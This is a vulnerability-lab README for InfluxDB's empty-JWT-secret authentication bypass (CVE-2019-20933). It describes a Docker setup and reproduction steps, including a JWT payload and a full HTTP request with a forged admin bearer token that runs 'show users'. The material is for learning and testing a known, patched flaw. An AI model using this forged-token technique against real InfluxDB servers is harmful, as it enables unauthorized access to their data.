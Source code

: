 # InfluxDB Empty JWT Secret Key Authentication Bypass (CVE-2019-20933)

[中文版本(Chinese version)](README.zh-cn.md)

InfluxDB is an open-source time series database developed by the company InfluxData.

InfluxDB before 1.7.6 has an authentication bypass vulnerability in the authenticate function in `services/httpd/handler.go` because a JWT token may have an empty SharedSecret (aka shared secret).

References:

- https://www.komodosec.com/post/when-all-else-fails-find-a-0-day
- https://github.com/influxdata/influxdb/issues/12927
- https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933
- https://docs.influxdata.com/influxdb/v1.7/administration/config/#http-endpoints-settings

## Vulnerable Environment

Execute following command to start a InfluxDB 1.6.6:

```
docker compose up -d
```

After server is started, you can see some debug information in `http://your-ip:8086/debug/vars`. But you are unable to execute SQL statement without authencation and a 401 error is responsed:

![](1.png)

## Vulnerability Reproduce

We can use <https://jwt.io/> to generate a valid JWT token with an empty secret key:

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "admin",
  "exp": 2986346267
}
```

Where `username` is the administrator account name, and `exp` is the token expiration time. You should set `exp` to a future time to make it effect:

![](2.png)

Then take this token to the request, and success to execute SQL statement `show users` in the server:

```
POST /query HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoyOTg2MzQ2MjY3fQ.LJDvEy5zvSEpA_C6pnK3JJFkUKGq9eEi8T2wdum3R_s
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

db=sample&q=show+users
```

![](3.png)
